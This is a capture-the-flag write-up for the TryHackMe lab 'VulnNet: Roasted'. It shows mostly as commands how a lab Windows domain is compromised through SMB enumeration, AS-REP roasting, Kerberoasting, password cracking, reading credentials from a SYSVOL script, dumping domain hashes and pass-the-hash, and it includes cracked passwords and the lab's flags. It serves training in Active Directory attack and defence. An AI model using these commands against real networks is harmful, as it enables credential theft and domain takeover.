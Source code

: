 # VulnNet: Roasted - TryHackMe

**Platform:** TryHackMe  
**Difficulty:** Easy  
**IP Address:** `10.201.79.171`

![Proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/THM/proofs/thm_roasted.png)

---

## 🧭 Overview

`VulnNet: Roasted` is an Active Directory-themed Windows machine focused on enumeration, user hunting, AS-REP roasting, Kerberoasting, and privilege escalation through weak scripts. It demonstrates classic Windows network exploitation methodology, ending with full domain compromise.

---

## 🔍 Enumeration

### 🔎 Nmap
```bash
rustscan -a $target --ulimit 5000 -- -sC -sV -Pn -oN nmap_full
```
- High number of open ports (Kerberos, LDAP, SMB, WinRM)
- AD Domain: `vulnnet-rst.local`

### 🔎 SMB Shares
```bash
smbclient -L \\$target\
```
- Two anonymous shares found:
  - `VulnNet-Business-Anonymous`
  - `VulnNet-Enterprise-Anonymous`

Retrieved internal usernames:
```
Alexa Whitehat
Jack Goldenhand
Tony Skid
Johnny Leet
```

---

## 🚪 Exploitation

### 👥 Username Enumeration & AS-REP Roasting
```bash
git clone https://github.com/mohinparamasivam/AD-Username-Generator
python3 username-generate.py -u names.txt -o users.txt
kerbrute userenum users.txt --dc $target -d vulnnet-rst.local
```
**Valid Users:**
- `a-whitehat`
- `j-goldenhand`
- `t-skid`
- `j-leet`

```bash
GetNPUsers -dc-ip $target -usersfile users.txt -outputfile hashes.txt
```
**Found AS-REP hash for:** `t-skid`

### 🔓 Password Cracking
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
**Password:** `tj072889*`

### ✅ WinRM Access
```bash
crackmapexec winrm $target -u t-skid -p 'tj072889*'  # Fails
```

### 🔥 Kerberoasting
```bash
GetUserSPNs -dc-ip $target 'vulnnet-rst.local/t-skid:tj072889*' -request
```
**Service User:** `enterprise-core-vn`

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt krbhash.txt
```
**Password:** `ry=ibfkfv,s6h,`

### 🦝 Evil-WinRM Shell
```bash
evil-winrm -u enterprise-core-vn -p 'ry=ibfkfv,s6h,' -i $target
```
**User Flag:** `THM{726b7c0baaac1455d05c827b5561f4ed}`

---

## ⬆️ Privilege Escalation

### 📁 SMB Script Disclosure
```bash
smbclient -U 'enterprise-core-vn' \\$target\SYSVOL
get vulnnet-rst.local/scripts/ResetPassword.vbs
```
**Credentials found:**
- User: `a-whitehat`
- Pass: `bNdKVkjv3RR9ht`

### 🧠 Domain Admin Access
```bash
crackmapexec winrm $target -u a-whitehat -p 'bNdKVkjv3RR9ht'  # Pwn3d!
```
```bash
impacket-wmiexec vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@$target
```
Confirmed: `a-whitehat` is a **Domain Admin**.

### 🧂 Dumping Hashes
```bash
impacket-secretsdump -just-dc-ntlm vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@$target
```
- Dumped all domain user hashes
- Administrator hash obtained

### 🛡️ Administrator Shell
```bash
impacket-wmiexec vulnnet-rst.local/Administrator@$target -hashes :c2597747aa5e43022a3a3049a3c3b09d
```
**Root Flag:** `THM{16f45e3934293a57645f8d7bf71d8d4c}`

---

## 🧠 Lessons Learned

- Always check SMB shares for low-hanging usernames.
- Username generators + Kerbrute + AS-REP = reliable foothold.
- Kerberoasting remains effective against misconfigured service accounts.
- SYSVOL is gold for escalation scripts.
- Privilege escalation via password reuse and domain group memberships is common.

---
